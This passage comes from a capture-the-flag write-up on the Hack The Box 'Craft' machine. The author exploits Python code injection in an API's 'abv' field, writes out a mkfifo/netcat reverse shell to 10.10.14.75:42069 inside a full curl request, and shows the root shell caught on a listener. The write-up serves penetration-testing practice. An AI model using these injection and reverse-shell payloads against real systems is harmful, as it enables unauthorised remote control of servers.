 ```console
  "id": 0,
  "brewer": "string",
  "name": "string",
  "style": "string",
  "abv": "__import__('os').system('whoami')"
}
```

And this time we got an unhandled exception:

```console
HTTP/1.1 500 INTERNAL SERVER ERROR
Server: nginx/1.15.8
Date: Tue, 17 Dec 2019 03:16:15 GMT
Content-Type: application/json
Content-Length: 48
Connection: close

{"message": "An unhandled exception occurred."}
```

I am going to see if I can find some sort of reverse shell paylod for this instead of just `whoami`. 

After what feels like too many hours of reading, and failures with my shell dropping immediately, I did take a hint for this box and someone talked me through why my shell was not working. I found what should be a working shell (thanks to a hint honestly):

```console
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.75 42069 >/tmp/f
```
add it to our curl command:

```console
curl -i -s -k -X $'POST' \
    -H $'Host: api.craft.htb' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: application/json' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: https://api.craft.htb/api/' -H $'Content-Type: application/json' -H $'X-Craft-API-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTc2NTk5ODg1fQ.2MFxBqtUHH21Eln7_xL2w5V8Qbqez2tBbRi7tErXh7Q' -H $'Origin: https://api.craft.htb' -H $'Content-Length: 197' -H $'Connection: close' -H $'DNT: 1' \
    --data-binary $'\x0d\x0a{\x0a  \"id\": 0,\x0a  \"brewer\": \"string\",\x0a  \"name\": \"string\",\x0a  \"style\": \"string\",\x0a  \"abv\": \"__import__(\'os\').system(\'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.75 42069 >/tmp/f\')\"\x0a}' \
    $'https://api.craft.htb/api/brew/'
```
and there we go - I caught a shell back on my listener:

```console
root@kali:~/htb/craft# nc -lvnp 42069
listening on [any] 42069 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.10.110] 43949
/bin/sh: can't access tty; job control turned off
/opt/app # whoami
root
/opt/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

